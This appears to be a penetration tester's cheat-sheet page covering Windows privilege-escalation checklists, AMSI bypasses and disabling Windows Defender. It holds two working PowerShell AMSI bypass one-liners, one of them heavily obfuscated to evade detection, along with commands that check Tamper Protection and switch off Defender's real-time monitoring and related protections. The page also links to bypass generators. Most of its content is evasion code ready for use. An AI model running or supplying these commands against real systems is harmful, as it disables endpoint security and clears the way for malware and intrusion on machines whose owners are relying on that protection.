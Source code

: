 
### Checklists

#### Windows
- https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

## AMSI

```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

```powersehll
$fjujQSw=$null;$bfky="$(('S'+'y'+'s'+'t'+'e'+'m').nOrMAlIze([ChAr](70*40/40)+[CHaR]([byte]0x6f)+[chAr](94+20)+[ChaR](109+62-62)+[ChAR](27+41)) -replace [chAr](92)+[CHaR]([BYTe]0x70)+[cHar](23+100)+[cHar]([byTe]0x4d)+[chAR]([bYtE]0x6e)+[cHar]([byte]0x7d)).$(('Mãnàg'+'ement').NOrmAliZE([CHAR]([BYTe]0x46)+[chAr](36+75)+[CHaR](114)+[cHAr](63+46)+[CHaR](17+51)) -replace [cHAR](41+51)+[ChAR](112*76/76)+[cHAr]([byTe]0x7b)+[cHar](77+13-13)+[chaR]([BYTe]0x6e)+[ChAR](125+9-9)).$([cHAR](65)+[CHaR]([BYte]0x75)+[CHAR](116+72-72)+[CHAR](67+44)+[chAR]([bytE]0x6d)+[chAr](97+9-9)+[Char](116*72/72)+[CHAr]([byte]0x69)+[Char]([byTe]0x6f)+[chaR]([Byte]0x6e)).$([CHAR]([BYte]0x41)+[char]([ByTe]0x6d)+[cHAr](115+39-39)+[CHAR]([Byte]0x69)+[cHaR](85*12/12)+[chAR]([byte]0x74)+[ChaR](105*12/12)+[ChaR]([BytE]0x6c)+[char](115))";$dgbiziuzftrzlf="+[cHaR]([byTE]0x6c)+[CHAr]([BYTE]0x70)+[chAr]([byte]0x7a)+[cHar]([bYtE]0x74)+[cHAR](105)+[ChAR](118+34-34)+[cHAR](101)+[CHAr](97)+[CHAR]([Byte]0x63)+[cHAR]([ByTE]0x65)+[CHaR](106)+[ChAR]([BYte]0x73)+[ChAR]([BYte]0x61)+[CHar](121+46-46)+[Char]([BYTe]0x61)+[CHaR](106)+[chAr]([Byte]0x67)+[cHAR](78+21)+[CHar](111*77/77)+[CHAr](91+17)+[CHAR](111+29-29)+[CHaR](1+106)+[ChAr](115+76-76)+[cHAR](92+19)+[char]([bYTe]0x65)+[cHar]([bytE]0x7a)+[CHAr](97*40/40)+[char]([bYTE]0x6d)+[cHaR](110*34/34)";[Threading.Thread]::Sleep(851);[Runtime.InteropServices.Marshal]::("$(('Wrìte'+'Înt32').NOrmalize([CHaR](51+19)+[Char](111)+[cHAr](114*43/43)+[cHaR](75+34)+[CHAR]([bYTE]0x44)) -replace [cHar](70+22)+[chAR]([bYtE]0x70)+[Char](108+15)+[chAr]([byTE]0x4d)+[ChaR](110)+[CHar](125*16/16))")([Ref].Assembly.GetType($bfky).GetField("$([CHAR]([bYtE]0x61)+[CHaR]([bYtE]0x6d)+[CHar]([byTe]0x73)+[ChaR]([bytE]0x69)+[chAR]([ByTE]0x43)+[CHAR](62+49)+[CHaR](110+108-108)+[chAr]([ByTe]0x74)+[chAR]([BYte]0x65)+[cHAR]([BYTE]0x78)+[char]([ByTE]0x74))",[Reflection.BindingFlags]"NonPublic,Static").GetValue($fjujQSw),0x32aaa0ce);  
```

#### Sites:
 - https://amsi.fail/
 - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#disable-defender
 - https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/

## Windows Defender/AV

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```
